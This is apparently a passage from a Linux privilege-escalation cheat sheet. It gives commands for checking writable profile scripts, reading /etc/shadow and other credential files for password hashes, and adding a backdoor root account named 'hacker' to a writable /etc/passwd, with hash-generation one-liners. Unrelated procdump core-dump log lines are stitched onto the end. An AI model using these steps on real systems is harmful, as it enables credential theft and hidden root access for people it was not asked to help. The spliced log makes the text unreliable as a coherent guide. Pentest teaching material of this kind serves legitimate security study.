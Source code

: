 
{{#ref}}
ssh-forward-agent-exploitation.md
{{#endref}}

## Interesting Files

### Profiles files

The file `/etc/profile` and the files under `/etc/profile.d/` are **scripts that are executed when a user runs a new shell**. Therefore, if you can **write or modify any of them you can escalate privileges**.

```bash
ls -l /etc/profile /etc/profile.d/
```

If any weird profile script is found you should check it for **sensitive details**.

### Passwd/Shadow Files

Depending on the OS the `/etc/passwd` and `/etc/shadow` files may be using a different name or there may be a backup. Therefore it's recommended **find all of them** and **check if you can read** them to see **if there are hashes** inside the files:

```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```

In some occasions you can find **password hashes** inside the `/etc/passwd` (or equivalent) file

```bash
grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
```

### Writable /etc/passwd

First, generate a password with one of the following commands.

```
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714